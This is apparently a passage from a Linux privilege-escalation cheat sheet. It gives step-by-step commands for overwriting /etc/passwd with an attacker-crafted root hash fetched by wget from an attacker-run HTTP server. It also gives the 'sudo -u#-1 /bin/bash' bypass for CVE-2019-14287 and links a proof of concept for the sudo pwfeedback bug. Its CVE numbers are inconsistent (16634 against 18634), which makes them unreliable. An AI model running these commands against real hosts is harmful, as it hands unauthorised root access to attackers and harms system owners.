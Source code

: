 Victim
```ps1
cp /etc/passwd /tmp/passwd
cat /etc/passwd

```
Attacker

```ps1
Copy /etc/passwd content and put in a local file called passwd
Run python -c "import crypt; print crypt.crypt('NewRootPassword')"
Copy output of the above command 
edit passwd
Replace x in root's line with the copied output
Save the file
python -m SimpleHTTPServer 9000 // You can use any port
```

Victim

```ps1
sudo wget http://<attacker_ip>:9000/passwd -O /etc/passwd
su root // Enter the new root password you generated (Example: NewRootPassword)
id && whoami
```


### __Sudo CVE__
Ẽploit sudo with known CVE

CVE:

- CVE-2019-14287
- CVE-2019-16634

#### __CVE-2019-14287__

sudo -V // Get sudo version
sudo -l

Vulnerable output 
Output = (ALL,!root) NOPASSWD: /bin/bash 

```ps1
sudo -u#-1 /bin/bash
id && whoami
    
```

#### __CVE-2019-16634__

sudo -V // Get sudo version

sudo su root // If you type root's password , can you see the *****? // That means pw_feedback is enabled

Expliot PoC: https://github.com/saleemrashid/sudo-cve-2019-18634
